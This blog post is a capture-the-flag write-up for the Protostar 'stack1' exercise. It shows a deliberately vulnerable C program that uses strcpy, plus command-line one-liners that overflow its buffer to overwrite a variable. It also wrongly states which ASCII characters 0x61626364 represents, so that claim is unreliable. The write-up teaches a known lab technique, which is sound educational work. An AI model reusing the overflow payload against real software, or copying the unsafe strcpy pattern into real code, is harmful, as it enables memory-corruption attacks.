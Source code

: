 ```yaml
---
layout: post
title: Protostar Writeup - stack1
updated: 2018-07-25 21:00
tags: [ctf, binary exploit, tech, protostar]
---
```


## Protostar - stack1

Moving on to the next challenge of Protostar. Before reading any further, I strongly advise that you try this challenge yourself first.
If you have taken a look at my [previous](http://laptop64.co/notes/proto-stack0) writeup, you can see that this challenge is fairly simple.
Instead of just modifying the 'modfied' variable we have to change it to a specific value which is `0x61626364`, which is basically '=', '>', '?' & '@' in ascii.
Here's the code:

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    if(argc == 1) {
        errx(1, "please specify an argument\n");
    }

    modified = 0;
    strcpy(buffer, argv[1]);

    if(modified == 0x61626364) {
        printf("you have correctly got the variable to the right value\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }
}
{% endhighlight %}

Another change that we notice is that there is no `gets()` for input, instead we're taking input from the command line.
So how do we overflow this? Let's take a peek at the `strcpy()` man since this is what is used to copy into the buffer.
Scrolling down to the BUGS section, everything becomes clear.

> If the destination string of a strcpy() is not large enought, then anything might happen. Overflowing...favorite cracker technique.

With this information we can confirm that this is a buffer overflow attack. Using our knowledge from the previous write up, let's write our overflow.

{% highlight shell %}
$ ./stack1 $(python -c "print 'A' * 64 + '\x61\x62\x63\x64'")
Try again, you got 0x64636261
{% endhighlight %}

What?! How did that not work? The value of modified has changed, but it's "0x64636261" and not "0x61626364". Why so?
If we take a look at the site we see a little hint:

> Protostar is little endian

What this means is that when giving input data, the data stored with the LSB first and MSB last. So the fix is simple, just reverse the bytes.

{% highlight shell %}
$ ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
you have correctly got the variable to the right value
{% endhighlight %}

And there you have it, nice and easy.

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)
[endianness](https://en.wikipedia.org/wiki/Endianness)
